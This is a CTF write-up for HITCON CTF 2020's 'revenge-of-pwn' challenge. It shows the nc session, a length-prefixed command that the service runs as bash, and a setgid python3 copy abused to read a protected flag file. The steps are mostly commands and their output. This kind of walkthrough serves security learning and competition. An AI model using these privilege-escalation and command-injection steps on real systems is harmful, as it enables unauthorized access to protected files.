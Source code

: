 # revenge-of-pwn

> Have you ever thought those challenges you pwned may retaliate someday? nc 3.115.58.219 9427 revenge_of_pwn-255196bb99d75512732a4109f154103b4bc428e6e29e2cdcc69e44aee67ea75f.tar.gz

Categories:
* misc
* pwn

## Solution

```
$ nc 3.115.58.219 9427
ELF size? (MAX: 6144)
131
/home/deploy/secret_python_others_should_never_know -c '__import__("os").setgid(1001);print(open("/home/deploy/flag").read())' 1>&2
[*] Version of pwntools: 4.3.0
[x] Opening connection to 127.0.0.1 on port 1337
[x] Opening connection to 127.0.0.1 on port 1337: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 1337: Done
hitcon{use_pwntools_to_pwn_pwntools_^ovo^}
```

## Explanation

So basically I think we were supposed to [abuse pwntools `asm` function](https://github.com/FrenchRoomba/ctf-writeup-HITCON-CTF-2020/blob/master/revenge-of-pwn/README.md), but I'm pretty lazy

Since we basically have a shell by sending `len(cmd) + "\n" + cmd` to the socket (it executes non-ELF without shebang as `bash`), I explored a little first:

```
$ ls -lah $HOME
-rwxr-sr-x 1 root exploiter 5.3M Nov 26 05:07 /home/deploy/secret_python_others_should_never_know
-rw-r----- 1 root exploiter 43 Nov 24 14:58 /home/deploy/flag
```

The setgid bit is set on `secret_python_others_should_never_know`, and it's owned by `exploiter`--and so is the flag! 

```
$ cat /etc/passwd | grep exploiter
exploiter:x:1001:1001:,,,:/home/exploiter:/bin/bash
```

So now we just run `secret_python_others_should_never_know` which is basically a copy of the `python3` binary:

```
$ secret_python_others_should_never_know
>>> import os
>>> os.setgid(1001)
>>> os.system('cat /home/deploy/flag')
```

(^ expanded payload). I also had to redirect stdout to stderr to see the output.

